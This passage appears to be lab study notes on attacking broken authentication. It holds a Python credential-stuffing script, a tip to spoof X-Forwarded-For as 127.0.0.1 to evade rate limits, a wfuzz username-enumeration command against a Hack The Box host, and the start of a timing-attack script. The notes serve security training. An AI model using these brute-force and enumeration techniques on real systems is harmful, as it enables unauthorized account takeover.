 ```Python
"""
if defined valid string is found in response body return True
"""
def check(haystack, needle):
    if needle in haystack:
        return True
    else:
        return False

def main():
    # check if this script has been runned with an argument, and the argument exists and is a file
    if (len(sys.argv) > 1) and (os.path.isfile(sys.argv[1])):
        fname = sys.argv[1]
    else:
        print("[!] Please check wordlist.")
        print("[-] Usage: python3 {} /path/to/wordlist".format(sys.argv[0]))
        sys.exit()

    # open the file, this is our wordlist
    with open(fname) as fh:
        # read file line by line
        for fline in fh:
            # skip line if it starts with a comment
            if fline.startswith("#"):
                continue
            # use unpack() function to extract userid and password from wordlist, removing trailing newline
            userid, passwd = unpack(fline.rstrip())

            # call do_req() to do the HTTP request
            print("[-] Checking account {} {}".format(userid, passwd))
            res = do_req(url, userid, passwd, headers)

            # call function check() to verify if HTTP response text matches our content
            if (check(res, valid)):
                print("[+] Valid account found: userid:{} passwd:{}".format(userid, passwd))

if __name__ == "__main__":
    main()
```
Can alter the headers at line 9
### Lab Question 2:
Use 127.0.0.1 as address in `X-Forwarded-For`
## Brute Forcing Usernames
### User Unknown Attack
- When a login fails and the application tells you that the username is not known
#### Use WFuzz and a reverse string match against the response text
```Shell
wfuzz -c -z file,/opt/useful/SecLists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Unknown username" http://brokenauthentication.hackthebox.eu/user_unknown.php
```
wfuzz automatically hides any response containing an "Unknown username" message
### Timing Check
- If username and password are validated separately by the application, they will return a different time
#### timing.py
```Python
import sys
import requests
```
